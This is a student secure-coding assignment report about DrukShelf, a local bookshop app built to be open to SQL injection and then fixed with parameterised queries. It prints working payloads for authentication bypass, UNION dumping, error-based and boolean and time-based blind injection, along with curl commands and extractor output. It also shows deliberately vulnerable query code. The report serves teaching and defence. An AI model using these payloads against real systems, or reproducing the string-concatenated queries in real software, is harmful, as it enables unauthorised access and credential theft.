<div align="center">

# DrukShelf: SQL Injection
### Building a SQL-Injection-Vulnerable Web App and Fixing It with Parameterised Queries

**WEB404: Secure Coding Practices · Assignment 3**
</div>

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [Objectives](#2-objectives)
3. [Technologies Used](#3-technologies-used)
4. [Project Structure](#4-project-structure)
5. [What Is SQL Injection?](#5-what-is-sql-injection)
6. [System Design](#6-system-design)
7. [Application Walkthrough](#7-application-walkthrough)
8. [The Vulnerable Version](#8-the-vulnerable-version)
9. [The Attacks](#9-the-attacks)
10. [Why the Vulnerability Works](#10-why-the-vulnerability-works)
11. [The Fix: Parameterised Queries](#11-the-fix-parameterised-queries)
12. [Why the Fix Works](#12-why-the-fix-works)
13. [Testing Methodology](#13-testing-methodology)
14. [Vulnerable vs Protected: Side by Side](#14-vulnerable-vs-protected-side-by-side)
15. [Results](#15-results)
16. [Security Lessons Learned](#16-security-lessons-learned)
18. [Conclusion](#18-conclusion)
19. [References](#19-references)


---

## 1. Introduction

Almost every website stores its information in a **database** and reads that
information using **SQL** (a language for asking a database questions). A problem
appears when a program builds its SQL by **gluing the user's typed text straight
into the query**. When that happens, the database can no longer tell the
difference between the *instructions written by the programmer* and the *text
typed by the user*. A clever user can then type text that the database reads as
new instructions.

This is called **SQL injection (SQLi)**. It is one of the oldest and most
dangerous web vulnerabilities — listed by MITRE as **CWE-89** and featured for
years at the top of the OWASP list of web risks. Because the database is where
the valuable data lives, a single weak input can let an attacker **log in
without a password**, **read every user's details**, or even **change or delete
data** — all through an ordinary-looking search box or login form.

This report studies SQL injection in two halves:

1. **The problem.** I build a small online bookshop called **DrukShelf** whose
   login form and search box build SQL by gluing text together. I then perform
   **five different kinds** of SQL-injection attack against it (Sections 8–10).
2. **The fix.** I switch the same app to **parameterised (prepared) queries** and
   repeat every attack. They all fail, while normal logins and searches keep
   working (Sections 11–15).

> **Ethics and scope.** Everything runs on my own computer (`localhost`) with
> made-up data that is rebuilt fresh each time the app starts. The attack script
> only targets the demo app I run myself. Nothing here touches any real website.
> SQL injection is shown here purely to understand and prevent it.

---

## 2. Objectives

1. **Explain** what SQL injection is and why gluing text into queries causes it.
2. **Build** a working web app with a login form and a database-backed search.
3. **Demonstrate** five kinds of SQL injection against the unprotected app:
   authentication bypass, UNION-based, error-based, boolean-based blind, and
   time-based blind.
4. **Automate** a blind attack to show the whole database can be read even when
   no data is ever shown on screen.
5. **Fix** the app using parameterised queries.
6. **Prove** that every attack now fails while normal use is unaffected.
7. **Reflect** on the lessons and on extra layers of defence.

---

## 3. Technologies Used

| Technology | What it does here |
|------------|-------------------|
| **Node.js (≥ 20)** | Runs the app and the attack script. |
| **Express 5** | Small web framework for the pages and routes. |
| **sql.js (SQLite in WebAssembly)** | A *real* SQL database that runs in memory with no install and no separate server — so the whole lab works after one `npm install`. |
| **cookie-parser** | Reads the login session cookie. |
| **Node `crypto`** | Creates random, hard-to-guess session ids. |
| **cross-env** | Sets the `SQLI_PROTECTION` switch the same way on Windows/macOS/Linux. |
| **HTML + CSS** | Simple server-rendered pages that print the real SQL on screen. |

No ORM or query-builder library is used: both the vulnerable code and the fix
are written by hand so every step is visible.

---

## 4. Project Structure

```
Assignment_3/
├── package.json             # start:vulnerable / start:protected / attack:extract
├── README.md                # this report
├── instruction.md           # how to run it and capture the screenshots
├── src/
│   ├── config.js            # reads the SQLI_PROTECTION switch
│   ├── db.js                # builds the in-memory database, seeds books + users
│   ├── queries.js           # THE KEY FILE: vulnerable vs parameterised queries
│   ├── views.js             # the HTML pages + the "SQL sent to the database" panel
│   └── server.js            # the routes (login, search, logout)
├── attacker/
│   └── extract.js           # automatic blind extractor (local lab tool)
├── public/
│   ├── style.css            # styling + light/dark theme
│   ├── app.js               # light/dark theme toggle
│   ├── theme.js             # applies the saved theme before the page shows
│   └── favicon.svg
└── screenshots/             # the evidence used in this report
```

The only file that behaves differently between the two versions is
`src/queries.js`. Everything else is shared.

---

## 5. What Is SQL Injection?

### 5.1 The root cause, in one example

Here is a login check that builds its SQL by gluing text together:

```js
"SELECT id, username, role FROM users " +
"WHERE username = '" + username + "' AND password = '" + password + "'"
```

If someone types the username `admin` and password `1234`, the database receives:

```sql
SELECT id, username, role FROM users WHERE username = 'admin' AND password = '1234'
```

The quotes around the values were written by the *programmer*, but the text
inside them came from the *user*. So what if the user types a quote of their own?
Typing the username `' OR 1=1-- ` produces:

```sql
SELECT id, username, role FROM users WHERE username = '' OR 1=1--  ' AND password = '...'
```

The `--` begins a SQL comment, which deletes the password check, and `1=1` is
always true. The query now returns **every** user. The user's *text* became part
of the database's *instructions*. That is the whole vulnerability.

### 5.2 The five kinds shown in this report

SQL injection is usually grouped by **how the attacker gets the answer back**:

| Group | Kind | How the data comes back | Shown in |
|-------|------|-------------------------|----------|
| **In-band** | **Authentication bypass** | The injected logic changes the app's decision directly. | §9.1 |
| **In-band** | **UNION-based** | Extra rows from another table are shown in the results. | §9.2 |
| **In-band** | **Error-based** | A database error message, shown by the app, leaks info. | §9.3 |
| **Blind** | **Boolean-based** | No data is shown; the attacker reads it from *whether the page changes*. | §9.4 |
| **Blind** | **Time-based** | Nothing visible changes; the attacker reads it from *how long the reply takes*. | §9.5 |

---

## 6. System Design

DrukShelf is a small online bookshop with two database-backed features that
together cover everything this assignment needs:

```
                  ┌───────────────────────────────────────────┐
  Browser ─GET─▶  │  /catalog?q=<term>                         │
                  │    builds a SELECT on the `books` table    │──▶ sql.js
  Browser ─POST▶  │  /login  (username, password)              │    (SQLite
                  │    builds a SELECT on the `users` table    │     in memory)
                  └───────────────────────────────────────────┘
```

The database has two tables (see `src/db.js`):

- **`books`**: the *public* catalogue (id, title, author, category, price,
  stock). The search box is *meant* to read this table.
- **`users`**: the *private* accounts table (id, username, password, email,
  role). The app never intends to show this to a visitor. It is the prize the
  attacks go after.

One switch, `SQLI_PROTECTION`, decides at start-up whether `src/queries.js`
builds SQL by **gluing text** (`off`, vulnerable) or with **bound parameters**
(`on`, protected). A coloured banner : **red** for vulnerable, **green** for
protected: makes the current mode obvious in every screenshot.

> **A deliberate bad practice, flagged on purpose.** The `users` table stores
> passwords as **plain text**. Real systems must store only a salted *hash*
> (e.g. bcrypt/argon2). Plain text is used here only so the attacks have
> something readable to recover; §16 returns to this.

---

## 7. Application Walkthrough

1. **Catalogue (`/catalog`).** The home page lists all books as cards with a
   search box on top. Every search prints the **exact SQL the database received**
   below the results: the most useful teaching tool in the app.
2. **Login (`/login`).** A staff login form. After an attempt, the executed SQL
   is shown so an injected payload stays visible.
3. **Attack Lab.** Both pages have a drop-down **Attack Lab** with **one-click
   payload buttons**, so the attacks can be shown without typing long strings.
   The same buttons work in vulnerable mode and are harmlessly blocked in
   protected mode. (It is clearly labelled as a teaching aid.)
4. **Mode banner and theme.** The red/green banner shows the current mode, and a
   light/dark toggle sits in the header.

---

## 8. The Vulnerable Version

In vulnerable mode (`SQLI_PROTECTION=off`) both queries are built by gluing text
together in `src/queries.js`:

```js
// Login
sql = "SELECT id, username, role FROM users " +
      "WHERE username = '" + username + "' AND password = '" + password + "'";

// Catalogue search
sql = "SELECT id, title, author, category, price FROM books " +
      "WHERE title LIKE '%" + term + "%' ORDER BY id";
```

In both cases the user's value sits *inside* the SQL string, between quotes the
programmer wrote. Nothing stops the user's text from containing its own quote and
breaking out into the surrounding SQL.



***Figure 1 : The DrukShelf home page in vulnerable mode.*** *The red banner
(top-right) confirms the app is building SQL by gluing text together. All 8 books
are listed as cards, and the blue "Attack Lab" panel offers one-click buttons for
every attack used in this report.*



***Figure 2 : A normal search for `clean`.*** *One book is returned. In the "SQL
sent to the database" panel below, the word `clean` is **highlighted in red**
because it was pasted directly into the query. That highlight is the warning sign
of an injectable query : the user's text has become part of the SQL.*

---

## 9. The Attacks

All attacks below were run against the vulnerable version. Every one can be
reproduced from the browser (or the Attack Lab buttons); §13 lists the `curl`
commands too.

### 9.1 Authentication bypass

**Goal** : log in as the administrator without knowing the password.

**Payload** : typed in the *username* box (password can be anything):

```
' OR 1=1-- 
```

The login query becomes:

```sql
SELECT id, username, role FROM users WHERE username = '' OR 1=1--  ' AND password = '...'
```

`1=1` is always true and `--` comments out the password check, so the query
returns **all 4 users** and the app logs us in as the first one: `admin`.



***Figure 3 : Logging in with `' OR 1=1-- ` and any password.*** *The green
message confirms we are signed in as **admin (administrator)** : the top bar now
reads "admin · administrator". The SQL panel shows why: the highlighted payload
made the condition always true and commented out the password check. The query
matched all 4 rows, and we were logged in as the first.*

> **A useful detail.** The textbook payload `' OR '1'='1` *without* a comment
> does **not** bypass this login, because SQL checks `AND` before `OR`, so the
> password part still has to be true. You must comment it out with `--` (or make
> the whole AND-group true). This shows an attack depends on the exact query, not
> on a memorised "magic string".

### 9.2 UNION-based extraction

**Goal** : read the private `users` table through the public search box.

A `UNION SELECT` bolts the rows of a second query onto the first. Both must have
the same number of columns; the catalogue returns **five**, so the injected query
also selects five.

**Payload** : in the search box:

```
zzz' UNION SELECT id, username, password, email, role FROM users-- 
```

No book contains `zzz`, so the first query returns nothing and the results table
fills up entirely with the **users** table instead.



***Figure 4 : One UNION query leaks the entire accounts table.*** *All four users
appear in the results, with their **plain-text passwords** (for example `admin` /
`Dr#k_R00t_2024!`), emails and roles — displayed under the book columns. A public
search box has just exposed every private credential.*

### 9.3 Error-based disclosure

**Goal** : make the database produce an error and have the app leak it.

**Payload** : a single quote in the search box:

```
'
```

This makes invalid SQL (`... LIKE '%'%'`). The database throws, and the vulnerable
app prints the raw message on the page.



***Figure 5 : A single quote breaks the query and leaks the error.*** *Instead of
failing quietly, the app shows the database's own message :
`unrecognized token: "' ORDER BY id"`. This confirms to an attacker that their
input reaches the SQL engine unescaped. On bigger databases (MySQL, SQL Server),
such errors can be pushed to reveal table and column names too.*

### 9.4 Boolean-based blind injection

**Goal:** read data even when the app shows **no** results and **no** error : only
whether a search *found something or not*.

**Payload** : asking a true/false question:

```
zzzzz' OR (SELECT substr(password,1,1) FROM users WHERE username='admin')='D'-- 
```

If the admin password's first letter is `D`, the `OR` is true and the whole
catalogue appears; if not, nothing appears. "Results vs no results" is a yes/no
answer, and by asking one question per letter the whole password can be rebuilt.



***Figure 6 : Boolean-based blind injection.*** *The payload asks "is the first
letter of the admin password `D`?". Because the answer is **true**, the condition
becomes true and all **8 books** are returned. A wrong guess (e.g. `Z`) returns
"No books matched". That single yes/no difference is enough to read the password
one letter at a time.*

### 9.5 Time-based blind injection

**Goal:** read data when the page looks **exactly the same** either way : the only
clue is *how long the reply takes*.

SQLite has no `SLEEP()`, but hashing a big random blob takes measurable time, and
a `CASE` only runs it when the guess is true:

```
zzz' OR CASE WHEN (SELECT unicode(substr(password,1,1)) FROM users
WHERE username='admin')>64 THEN like('A',upper(hex(randomblob(20000000)))) ELSE 0 END-- 
```



***Figure 7 : Time-based blind injection, measured with `curl`.*** *The true
guess took **0.778 s** because the heavy hash ran; the false guess took
**0.0036 s** because it was skipped. The exact numbers depend on the machine and
the blob size, but the gap between the two is   hundreds of times slower : is a completely reliable
signal. The attacker reads the answer from the clock, with the page unchanged.*

### 9.6 Automating the blind attack

The yes/no trick in §9.4 is slow by hand but easy to script.
`attacker/extract.js` guesses each letter of the admin password with a binary
search, asking the catalogue and checking only whether results came back.

```
$ npm run attack:extract

Oracle confirmed: "1=1" -> results, "1=2" -> no results.
Password length: 15 characters
Extracting password: Dr#k_R00t_2024!
  Recovered password for 'admin':  Dr#k_R00t_2024!
  HTTP requests sent:                 111
```



***Figure 8 : The automated extractor at work.*** *Using only the yes/no
difference in a loop, it recovered the full 15-character admin password
`Dr#k_R00t_2024!` in **111 requests** and the password **never appeared on any
page**. This is the key point: one weak input exposes the entire database even
when the app is careful never to display private data.*

---

## 10. Why the Vulnerability Works

Every attack above has the **same single cause**: the user's text is glued into
the SQL string, so the database cannot tell the programmer's SQL apart from the
user's input.

```
Intended:  SELECT ... WHERE title LIKE '%  [ USER TEXT ]  %'
Attack:    SELECT ... WHERE title LIKE '%  ' UNION SELECT ... --  %'
                                         └──── becomes SQL CODE ────┘
```

Once a quote from the input closes the string, everything after it is read as
more SQL. Trying to fix this by escaping quotes by hand is unreliable different
encodings and contexts create ways around it, and one missed spot reopens the
hole. The real fix is to stop mixing user text into the query at all.

---

## 11. The Fix: Parameterised Queries

In protected mode (`SQLI_PROTECTION=on`), `src/queries.js` uses **parameterised
(prepared) statements**. The SQL text is fixed and contains `?` placeholders; the
user's values are sent to the database **separately** and slotted into those
placeholders as pure data:

```js
// Login — protected
sql    = 'SELECT id, username, role FROM users WHERE username = ? AND password = ?';
params = [username, password];

// Catalogue search — protected
sql    = "SELECT id, title, author, category, price FROM books " +
         "WHERE title LIKE '%' || ? || '%' ORDER BY id";
params = [term];
```

The placeholders are part of the fixed query; the search term is joined into the
`LIKE` pattern by the **database**, not by us. The database compiles the query
*first*, then treats each value purely as data for an existing slot.



***Figure 9 : The same search in protected mode.*** *The banner is now **green**.
The query uses a `?` placeholder, and the user's input is shown **separately** as
a bound parameter (`$1 = "clean"`). Code and data are kept apart : this is the
structural difference that defeats every attack in Section 9.*

---

## 12. Why the Fix Works

With parameterised queries, a quote in the input is just the character `'`. There
is no string for it to break out of, because the value is never placed inside the
SQL text. Each attack from Section 9 simply collapses:

| Payload | Vulnerable result | Protected result |
|---------|-------------------|------------------|
| `' OR 1=1-- ` (login) | Logged in as admin | Looks for a *user actually named* `' OR 1=1-- ` → **no match → refused** |
| `zzz' UNION SELECT … users-- ` | Dumps the users table | Searched as a *book title* → **No books matched** |
| `'` (search) | Database error leaked | Searched as a title containing an apostrophe → **no error** |
| Blind payloads | Oracle works; password extracted | Treated as a literal title → **oracle dead** |

> **One more layer.** The app also HTML-escapes its output (`esc()` in
> `views.js`), which prevents a *different* attack called XSS. Note that output
> escaping does **not** stop SQL injection, and parameterised queries do **not**
> stop XSS. Each layer needs its own defence.

---

## 13. Testing Methodology

Both versions were tested in the browser and reproducibly with `curl`. Start the
relevant server first (Appendix A), then:

```powershell
# --- 9.1 Authentication bypass ---
curl.exe -s http://localhost:3000/login --data-urlencode "username=' OR 1=1-- " --data-urlencode "password=x" | Select-String "Authenticated as","Invalid"

# --- 9.2 UNION-based extraction ---
curl.exe -s -G http://localhost:3000/catalog --data-urlencode "q=zzz' UNION SELECT id,username,password,email,role FROM users-- " | Select-String "Dr#k_R00t","No books matched"

# --- 9.3 Error-based disclosure ---
curl.exe -s -G http://localhost:3000/catalog --data-urlencode "q='" | Select-String "database error","unrecognized token"

# --- 9.5 Time-based blind (watch the time) ---
curl.exe -s -G -o NUL -w "time=%{time_total}s`n" http://localhost:3000/catalog --data-urlencode "q=zzz' OR CASE WHEN (SELECT unicode(substr(password,1,1)) FROM users WHERE username='admin')>64 THEN like('A',upper(hex(randomblob(20000000)))) ELSE 0 END-- "

# --- 9.6 Automated blind extraction ---
npm run attack:extract
```

Each command was run once against `start:vulnerable` and once against
`start:protected`, and the two outcomes compared. The results are in Section 15.

---

## 14. Vulnerable vs Protected: Side by Side

| Attack (§) | Vulnerable version | Protected version |
|------------|--------------------|-------------------|
| Auth bypass (9.1) | **Logged in as admin** | Login refused |
| UNION dump (9.2) | **Whole users table leaked** | "No books matched" |
| Error-based (9.3) | **DB error leaked** | Normal result, no error |
| Boolean blind (9.4) | **Yes/no oracle works** | Oracle dead (literal search) |
| Time-based blind (9.5) | **0.778 s vs 0.0036 s** | Constant, fast |
| Automated (9.6) | **Password recovered (111 reqs)** | Extractor reports "protected" |
| Normal login (`yeshi`) | Works | **Works (unchanged)** |
| Normal search (`clean`) | Works | **Works (unchanged)** |

The fix blocks every attack **and** leaves normal use untouched — the sign of a
correct fix rather than a blunt filter. The screenshots below show the protected
side of this table.



***Figure 10 : The UNION attack (Figure 4), re-run in protected mode.*** *The
payload is now treated as one long book title to search for the whole string is
held in `$1` so it matches nothing: "No books matched". The users table stays
private.*

